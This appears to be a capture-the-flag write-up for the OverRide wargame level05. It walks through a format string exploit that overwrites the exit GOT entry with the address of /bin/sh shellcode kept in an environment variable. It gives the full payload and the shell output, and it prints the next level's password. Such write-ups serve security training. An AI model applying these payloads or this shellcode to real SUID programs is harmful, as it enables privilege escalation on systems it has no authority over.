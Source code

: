 # Level05 Exploit

## 1. Initial Analysis

List the files in the directory:

```bash
level05@OverRide:~$ ls -l
total 8
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The `level05` binary has the SUID bit set, which means it will run with the permissions of the owner of the file, in this case `level06`.

## 2. Program Execution

Observe the program behavior:

```bash
level05@OverRide:~$ ./level05 
test
test
level05@OverRide:~$ ./level05 
aaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaa
```

We can see that the program waits for an input, and then prints the input.

## 3. Disassembling `main` Function

Use GDB to disassemble the `main` function:

```bash
level05@OverRide:~$ gdb level05
(gdb) disass main
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool. You can find the converted code in [source.c](source.c).

## 4. Program Analysis

In the `main` function, we can see that the program reads the standard input into a buffer.
After that, in the `while` loop, the program checks if the character is less than or equal to `0x40` (64 in decimal) or greater than `0x5A` (90 in decimal). If it is, the program breaks out of the loop.
In the ASCII table, the characters from `0x41` to `0x5A` are the uppercase letters.
The program converts the uppercase letters to lowercase by XORing the character with `0x20`.
```c
while (index < 40) {
    char ch = buffer[index];
    if (ch <= 0x40) {
        break;
    }
    if (ch > 0x5A) {
        break;
    }
    buffer[index] ^= 0x20;
    index++;
}
```
Then, the program prints the buffer.
This `printf` function is vulnerable to a format string attack.
Indeed, we can use format string specifiers to read or write memory.

### 4.1. Format String Vulnerability

In the `printf` function, the `%n` format string specifier writes the number of characters written so far to the variable.
Example:
```c
int n = 0;
printf("Hello %n", &n);
printf("%d\n", n); // Output: 6
```

The `%hn` format string specifier writes the number of characters written so far to the variable, but it writes only 2 bytes.
Example:
```c
short n = 0;
printf("Hello %hn", &n);
printf("%d\n", n); // Output: 6
```
The `%10$hn` format string specifier writes the number of characters written so far to the 10th argument.

## 5. Exploitation

In the program, after `printf(buffer)`, there is `exit(0)`.
We will try to overwrite the `exit` function pointer with the address of a shellcode.

### 5.1. Find the Offset

We will use the `%x` format string specifier to print the stack content, and find where the first argument is located.

```bash
level05@OverRide:~$ ./level05 
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd66f ffffd66e 0 ffffffff ffffd6f4 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825
```
We can see that the first argument is located at the 10th position.

### 5.2. Find the Address of the `exit` Function

```bash
level05@OverRide:~$ objdump -R level05

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
The address of the `exit` is contained in the `R_386_JUMP_SLOT` section at address `0x080497e0`.

### 5.3. Declare the Shellcode

Our shellcode: `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`.
We will export the shellcode to an environment variable.

```bash
export SHELLCODE=`python -c 'print "\x90" * 128 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
```
We add 128 NOPs before the shellcode to ensure that the shellcode is executed.

Now, we will search for the address of the environment variable.

```bash
level05@OverRide:~$ gdb ./level05 
(gdb) break main
Breakpoint 1 at 0x8048449
(gdb) run
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x/s *((char **)environ)
0xffffd855:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
```
The command `x/s *((char **)environ)` prints the environment variables.
`x` is used to examine memory, and `s` is used to print in string format.
`*((char **)environ)` is used to get the address of the environment variables.

The address of our `SHELLCODE` environment variable is `0xffffd855`.

### 5.4. Exploit

We will write the adress of the `SHELLCODE` environment variable to the adresse which contains the `exit` address.
We know that the address which contains the `exit` address is `0x080497e0`.
So in little endian, it is `\xe0\x97\x04\x08`.
If we write this address in the printf, we can see that the address is write in the 10th argument.
```bash
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08 %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level05
� 64 f7fcfac0 f7ec3af9 ffffd66f ffffd66e 0 ffffffff ffffd6f4 f7fdb000 80497e0 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```

Now, we will use the `%hn` format string specifier to write the address of the `SHELLCODE` environment variable.
We will write first the 2 high bytes, then the 2 low bytes.

We can't just use `%n` to write the address of the `SHELLCODE` environment variable, because `0xffffd855` in decimal is `4294957141`, which is too big to write in one shot. It doesn't work.

SHELLCODE address = `0xffffd855`
In little-endian, the low bytes are stored first, then the high bytes.
So we want to write `0xffff` in `0x080497e2` and `0xd855` in `0x080497e0`.

`0xd855` = 55413 in decimal, so we will write `55413 - 8 = 55405` to write `0xd871`, - 8 bytes for the address of the pointer to the `exit` function.
So we will write `%55405%10$hn` (`%55405x` to write 55405 characters in hexadecimal, and `%10$hn` to write the number of characters written so far to the 10th argument).

`0xffff` = 65535 in decimal, so we will write `65535 - (55405 + 8) = 10122` to write `0xffff`.
`%10122%11$hn` (`%10122x` to write 10122 characters in hexadecimal, and `%11$hn` to write the number of characters written so far to the 11th argument).

Payload total: `\xe0\x97\x04\x08` + `\xe2\x97\x04\x08` + `%55405x%10$hn%10122x%11$hn`.
```bash
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55405x%10$hn%10122x%11$hn"' > /tmp/test
(cat /tmp/test; cat) | ./level05
```

We are now in a shell with the permissions of `level06`.
```bash
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

Congratulations! You have successfully exploited the `level05` binary and found the password for `level06`.

```bash
level05@OverRide:~$ su level06
Password: 
```
